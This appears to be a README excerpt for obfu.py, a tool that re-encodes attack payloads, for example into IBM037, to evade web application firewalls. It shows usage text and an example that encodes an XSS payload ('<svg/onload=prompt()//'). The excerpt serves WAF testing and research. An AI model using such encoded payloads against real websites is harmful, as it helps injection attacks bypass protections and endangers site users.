 ## [`obfu.py`](https://github.com/0xinfection/awesome-waf/blob/master/others/obfu.py)
> A small script to encode and obfuscate your payloads easily to your desired encodings.

### Usage:
```
$ python obfu.py -h

        OBFUSCATOR

usage: python3 obfu.py [-h] [-s STR] [-e ENC] [-ueo] [-udi]

Required Arguments:
  -s STR, --str STR  String to obfuscate
  -e ENC, --enc ENC  Encoding type. eg: ibm037, utf16, etc

Optional Arguments:
  -ueo               URL Encode Output
  -udi               URL Decode Input
```
### Example Usage:
```
$ python3 obfu.py -s 'param=<svg/onload=prompt()//' -e ibm037 -ueo
```
```
        OBFUSCATOR

Input: param=<svg/onload=prompt()//
Output: %97%81%99%81%94~L%A2%A5%87a%96%95%93%96%81%84~%97%99%96%94%97%A3M%5Daa
```

### Sidenote:
This script can encode in all types of formats which are supported by the Python Engine.
